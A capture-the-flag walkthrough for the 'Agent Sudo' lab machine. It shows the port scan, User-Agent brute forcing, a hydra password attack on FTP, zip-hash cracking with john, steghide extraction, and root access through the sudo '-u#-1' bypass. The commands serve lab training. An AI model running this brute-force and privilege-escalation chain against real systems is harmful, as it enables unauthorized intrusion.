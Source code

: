 # Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Nmap Scan
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
There are three ports open FTP on port 21, SSH on port 22 and web on port 80

## Enumeration
Agents have codename which is a single alphabet, Using Burp Suite I was able to bruteforce user-agent and the user-agent was C
It redirected me to http://<MACHINE_IP>/agent_C_attention.php
There I found a little text message
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```
And we found the user `chris`

## Exploitation
Bruteforcing using hydra `hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://<MACHINE_IP>`
> username - chris

> password - XXXXXXX

Now we know the password, we can login through FTP
using an ls command we can see all the files in the FTP server
```
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
Dumped all the files using `mget *`
I used `binwalk -e cutie.png` to extract all hidden files, Found a 8702.zip and it is encrypted
I am using `zip2john 8702.zip > Output.txt` to extract the hash fro ZIP file for john to crack and `john Output.txt` to crack the hash and we got the password alien

Extracted 8702.zip using `7z e 8702.zip` using the password we previously cracked, The ZIP consisted a TXT file `To_agentR.txt`
Opening the `To_agentR.txt` has the following message
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
There is a little encoded string Its was Base64 encoded, It decodes to `Area51`
Using the `steghide — extract -sf cute-alien.jpg` to find hidden files in the other jpg it was asking for a passphrase and I used the previous decoded string, After extracting we got a file `message.txt`
```
Hi james,

Glad you find this message. Your login password is XXXXXXXXXXXX 

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
Awesome! We got SSH credentials. Let us login using the credentials
> username - james

> password - XXXXXXXXXXXX

Got our first flag `user_flag.txt`
## Priveleges Escalation 

running `sudo -l` to know the priveleges of the current logged in user
```
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
After searching about `(ALL, !root) /bin/bash` I got to know that its a vulnerability that allows root access 
```
vulnerability is relevant in a specific configuration in the Sudo security policy,
called “sudoers”, which helps ensure that privileges are limited only to specific users.
(source:whitesourcesoftware)
```
Got the root shell using `sudo -u#-1 /bin/bash` and we got our root flag in `/root/root.txt`



